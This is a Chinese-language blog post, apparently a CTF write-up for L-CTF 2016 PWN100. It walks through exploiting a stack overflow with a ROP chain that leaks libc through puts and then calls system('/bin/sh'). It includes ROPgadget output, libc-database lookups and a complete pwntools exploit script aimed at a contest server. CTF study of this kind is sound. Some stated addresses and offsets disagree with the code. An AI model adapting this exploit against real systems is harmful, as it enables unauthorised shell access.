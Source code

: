 ```yaml
---
layout: post
title:  "L-CTF PWN100"
date:   2016-10-09 11:49:45 +0200
categories: jekyll update
---
```

漏洞是一个栈溢出
其中的sub_40063D内部有个read()，读入了0xC80个字节的数据，V1是bp-40h明显栈溢出
然后就可以考虑构造rop，lib泄露，调用system

关于lib泄露：
在程序的FUNTION中找到一个系统函数，这道题就用了puts，记下它在.got.plt中的地址为之后的rop构造做准备。
此题的目标是替换bp后的return地址为指令pop_rdi_ret，在二进制文件中查找该指令，可以运用ROPgadget-master库
具体代码是：
     在ROPgadget-master目录下，运行Python ROPgadget.py --binary filename
运行结果为：

{% highlight ruby %}
root@DESKTOP-I943ECH:/mnt/e/pwntools/ROPgadget-master# python ROPgadget.py  --binary ../pwn100
Gadgets information
============================================================
0x00000000004005a4 : adc byte ptr [rax], ah ; jmp rax
0x00000000004005e4 : adc byte ptr [rax], ah ; jmp rdx
0x000000000040076f : add bl, dh ; ret
0x000000000040076d : add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040076b : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004006fa : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x000000000040076c : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000004006fb : add byte ptr [rax], al ; add cl, cl ; ret
0x00000000004004db : add byte ptr [rax], al ; add rsp, 8 ; ret
0x00000000004006fc : add byte ptr [rax], al ; leave ; ret
0x000000000040076e : add byte ptr [rax], al ; ret
0x0000000000400608 : add byte ptr [rcx], al ; ret
0x00000000004006fd : add cl, cl ; ret
0x0000000000400604 : add eax, 0x200a56 ; add ebx, esi ; ret
0x00000000004005cb : add eax, edx ; sar rax, 1 ; jne 0x4005dc ; pop rbp ; ret
0x0000000000400609 : add ebx, esi ; ret
0x00000000004004de : add esp, 8 ; ret
0x00000000004005ca : add rax, rdx ; sar rax, 1 ; jne 0x4005dd ; pop rbp ; ret
0x00000000004004dd : add rsp, 8 ; ret
0x0000000000400607 : and byte ptr [rax], al ; add ebx, esi ; ret
0x000000000040062d : call rax
0x00000000004007b3 : call rsp
0x00000000004005cf : clc ; jne 0x4005d8 ; pop rbp ; ret
0x0000000000400686 : cld ; cmp eax, dword ptr [rbp - 0x1c] ; jl 0x400668 ; leave ; ret
0x0000000000400685 : cld ; cmp eax, dword ptr [rbp - 0x1c] ; jl 0x400669 ; leave ; ret
0x000000000040058d : cmp eax, 0xe ; mov rbp, rsp ; ja 0x4005a0 ; pop rbp ; ret
0x0000000000400687 : cmp eax, dword ptr [rbp - 0x1c] ; jl 0x400667 ; leave ; ret
0x00000000004006b5 : dec ecx ; ret
0x000000000040074c : fmul qword ptr [rax - 0x7d] ; ret
0x00000000004005a0 : hlt ; pop rbp ; mov edi, 0x601050 ; jmp rax
0x0000000000400593 : ja 0x40059a ; pop rbp ; ret
0x000000000040059f : je 0x40059d ; pop rbp ; mov edi, 0x601050 ; jmp rax
0x000000000040068a : jl 0x400664 ; leave ; ret
0x00000000004005a7 : jmp rax
0x00000000004005e7 : jmp rdx
0x00000000004005d0 : jne 0x4005d7 ; pop rbp ; ret
0x000000000040068c : leave ; ret
0x0000000000400603 : mov byte ptr [rip + 0x200a56], 1 ; ret
0x00000000004006f9 : mov eax, 0 ; leave ; ret
0x0000000000400684 : mov eax, dword ptr [rbp - 4] ; cmp eax, dword ptr [rbp - 0x1c] ; jl 0x40066a ; leave ; ret
0x000000000040062b : mov ebp, esp ; call rax
0x0000000000400591 : mov ebp, esp ; ja 0x40059c ; pop rbp ; ret
0x0000000000400625 : mov edi, 0x600e20 ; mov rbp, rsp ; call rax
0x00000000004005a2 : mov edi, 0x601050 ; jmp rax
0x00000000004005e2 : mov edi, 0x601050 ; jmp rdx
0x00000000004005e0 : mov esi, eax ; mov edi, 0x601050 ; jmp rdx
0x000000000040062a : mov rbp, rsp ; call rax
0x0000000000400590 : mov rbp, rsp ; ja 0x40059d ; pop rbp ; ret
0x00000000004005df : mov rsi, rax ; mov edi, 0x601050 ; jmp rdx
0x0000000000400768 : nop dword ptr [rax + rax] ; ret
0x0000000000400606 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; ret
0x000000000040075c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040075e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400760 : pop r14 ; pop r15 ; ret
0x0000000000400762 : pop r15 ; ret
0x0000000000400602 : pop rbp ; mov byte ptr [rip + 0x200a56], 1 ; ret
0x00000000004005a1 : pop rbp ; mov edi, 0x601050 ; jmp rax
0x00000000004005de : pop rbp ; mov rsi, rax ; mov edi, 0x601050 ; jmp rdx
0x000000000040075b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040075f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400595 : pop rbp ; ret
0x0000000000400763 : pop rdi ; ret
0x0000000000400761 : pop rsi ; pop r15 ; ret
0x000000000040075d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005a3 : push rax ; adc byte ptr [rax], ah ; jmp rax
0x00000000004005e3 : push rax ; adc byte ptr [rax], ah ; jmp rdx
0x0000000000400624 : push rbp ; mov edi, 0x600e20 ; mov rbp, rsp ; call rax
0x0000000000400605 : push rsi ; or ah, byte ptr [rax] ; add byte ptr [rcx], al ; ret
0x00000000004004e1 : ret
0x00000000004005c5 : ret 0xc148
0x00000000004005cc : ror byte ptr [rax - 0x2f], 1 ; clc ; jne 0x4005db ; pop rbp ; ret
0x000000000040059e : sal byte ptr [rsp + rsi*8 + 0x5d], 0xbf ; push rax ; adc byte ptr [rax], ah ; jmp rax
0x00000000004005ce : sar eax, 1 ; jne 0x4005d9 ; pop rbp ; ret
0x00000000004005cd : sar rax, 1 ; jne 0x4005da ; pop rbp ; ret
0x0000000000400775 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000400774 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040076a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret

Unique gadgets found: 77

{% endhighlight %}

找到其中pop redi;ret的地址为0x0000000000400762
pop redi;ret;的目的是将栈中下一个内容存放在rdi中，然后调用输出函数，把栈中下一个内容输出。
故下一步为将栈中下一个内容替换为puts函数的系统地址的存放地址，刚刚查找过的0x0000000000601018。
将再下一个地址替换为puts地址，即输出puts在目标系统中的地址。（这个地址是动态的，只有最后3位是不变的）
综上，可以写出以下的python脚本：

{% highlight ruby %}
from pwn import *

pwn = remote('119.28.63.211',2332)

pop_rdi_ret = 0x0000000000400763
loop = p64(0x00040068e)

#---------------leak

payload = ''
payload += 'B'*72   #  puts.plt
payload += p64(pop_rdi_ret)
payload += p64(0x000601018)
payload += p64(0x0000400500)
payload += loop

pwn.send(payload +'A'*(200-len(payload)))
pwn.recvuntil('bye~\n')

re = pwn.recv(6)

#-------------------cal

puts_got = u64(re+'\x00'*2)
print puts_got
print 'puts_got = ',hex(puts_got)
{% endhighlight %}
完成了lib泄露的步骤。
然后就是找shell code了。利用找到的后三位，使用库libc-database，可以找到该系统shell的地址。
具体代码如下：
{% highlight ruby %}
root@DESKTOP-I943ECH:/mnt/e/pwntools/libc-database# ./find puts 7c0
archive-eglibc (id libc6-i386_2.15-0ubuntu10.15_amd64)
{% endhighlight %}
找到了库名，然后：
{% highlight ruby%}
root@DESKTOP-I943ECH:/mnt/e/pwntools/libc-database# ./dump libc6-i386_2.15-0ubuntu10.15_amd64
offset___libc_start_main_ret = 0x19513
offset_system = 0x0003eed0
offset_dup2 = 0x000df4f0
offset_read = 0x000debe0
offset_write = 0x000dec60
offset_str_bin_sh = 0x15d7ec
{% endhighlight %}
找到了系统的函数地址。然后就好说了，再栈溢出一次就OK，所以接下来的代码是：
{% highlight ruby%}
sys_addr = puts_got - 0x000070c70 + 0x00000468f0
binsh_addr = puts_got - 0x0000070c70 + 0x0017dbc5

print 'sys_addr = ',hex(sys_addr)
print 'binsh_addr = ',hex(binsh_addr)

#---------------------

payload = ''
payload += 'A'*72
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(sys_addr)
payload += p64(0x12345678)

pwn.send(payload+'A'*(200-len(payload)))

pwn.recvuntil('bye~\n')

pwn.interactive()
{% endhighlight %}
要注意的是函数的地址得加上偏移量。（由于写笔记时服务器已经关闭，所以函数地址有所出入）